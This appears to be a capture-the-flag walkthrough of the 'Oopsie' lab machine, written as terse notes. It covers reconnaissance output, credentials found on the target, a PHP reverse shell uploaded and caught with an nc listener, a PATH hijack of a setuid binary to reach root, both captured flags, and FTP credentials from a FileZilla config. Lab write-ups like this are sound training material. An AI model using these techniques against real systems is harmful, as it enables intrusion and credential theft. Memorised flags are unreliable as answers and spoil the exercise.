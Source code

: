 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

# Oopsie

Nmap scan report for 10.10.10.28
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp   open     http          Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
3268/tcp filtered globalcatLDAP
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

gobuster dir -x "php, css, js, html, txt, xml, json" -u "http://10.10.10.28" -w "/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt"

find index.php, uploads/ to infer some certain files may onload

nikto finds cdn-cgi/login as a CGI directory

username: admin
password: MEGACORP_4dm1n!!

http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id="X"
find accounts
Account ID: 86575
Name: super admin
Email: superadmin@megacorp.com

upload [reverse shell php](https://github.com/pentestmonkey/php-reverse-shell) to server within super admin

use nc -lvnp port to listen reverse shell file to connect
as http://10.10.10.28/uploads/revshell.php

whoami www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)

user.txt
f2c74ee8db7983851ab2a96a44eb7981

get a better (interactive) bash use
> /usr/bin/script -qc /bin/bash /dev/null

## script help
-a, --append                  append the output
-c, --command <command>       run command rather than interactive shell
-e, --return                  return exit code of the child process
-f, --flush                   run flush after each write
    --force                   use output file even when it is a link
-q, --quiet                   be quiet
-t[<file>], --timing[=<file>] output timing data to stderr or to FILE
-h, --help                    display this help
-V, --version                 display version

www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

username: robert
password: M3g4C0rpUs3r!

because ssh port 22 has open
ssh robert@10.10.10.28

command input "id"
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
=> group contains "bugtracker"

robert@oopsie:/usr/bin$ find / -type f -group bugtracker 2> /dev/null
(2> dev/null mean discard unnecessary data message)
=> /usr/bin/bugtracker

file bugtracker
bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped

strings bugtracker
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"

echo /bin/bash -P > cat in ~/tmp (echo /bin/sh > cat)
chmod +x cat (switch to local tmp file 'cat')
export PATH=/home/robert/tmp:$PATH
exec bugtracker

any root privilege read file's bin root.txt
root.txt
af13b0bee69f8a877c3faf667f7beacf

## report contents
1.
Binary package hint: ev-engine-lib
Version: 3.3.3-1
Reproduce:
When loading library in firmware it seems to be crashed
What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.
What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.

2.
If you connect to a site filezilla will remember the host, the username and the password (optional). The same is true for the site manager. But if a port other than 21 is used the port is saved in .config/filezilla - but the information from this file isn't downloaded again afterwards.
ProblemType: Bug
DistroRelease: Ubuntu 16.10
Package: filezilla 3.15.0.2-1ubuntu1
Uname: Linux 4.5.0-040500rc7-generic x86_64
ApportVersion: 2.20.1-0ubuntu3
Architecture: amd64
CurrentDesktop: Unity
Date: Sat May 7 16:58:57 2016
EcryptfsInUse: Yes
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)

3.
Hello,
When transferring files from an FTP server (TLS or not) to an SMB share, Filezilla keeps freezing which leads down to very much slower transfers ...
Looking at resources usage, the gvfs-smb process works hard (60% cpu usage on my I7)
I don't have such an issue or any slowdown when using other apps over the same SMB shares.
ProblemType: Bug
DistroRelease: Ubuntu 12.04
Package: filezilla 3.5.3-1ubuntu2
ProcVersionSignature: Ubuntu 3.2.0-25.40-generic 3.2.18
Uname: Linux 3.2.0-25-generic x86_64
NonfreeKernelModules: nvidia
ApportVersion: 2.0.1-0ubuntu8
Architecture: amd64
Date: Sun Jul 1 19:06:31 2012
EcryptfsInUse: Yes
InstallationMedia: Ubuntu 12.04 LTS "Precise Pangolin" - Alpha amd64 (20120316)
ProcEnviron:
 TERM=xterm
 PATH=(custom, user)
 LANG=fr_FR.UTF-8
 SHELL=/bin/bash
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)
ApportVersion: 2.13.3-0ubuntu1
Architecture: amd64
DistroRelease: Ubuntu 14.04
EcryptfsInUse: Yes
InstallationDate: Installed on 2013-02-23 (395 days ago)
InstallationMedia: Ubuntu 12.10 "Quantal Quetzal" - Release amd64 (20121017.5)
Package: gvfs
PackageArchitecture: amd64
ProcEnviron:
 LANGUAGE=fr_FR
 TERM=xterm
 PATH=(custom, no user)
 LANG=fr_FR.UTF-8
 SHELL=/bin/bash
ProcVersionSignature: Ubuntu 3.13.0-19.40-generic 3.13.6
Tags: trusty
Uname: Linux 3.13.0-19-generic x86_64
UpgradeStatus: Upgraded to trusty on 2014-03-25 (0 days ago)
UserGroups:

.config/filezilla/filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
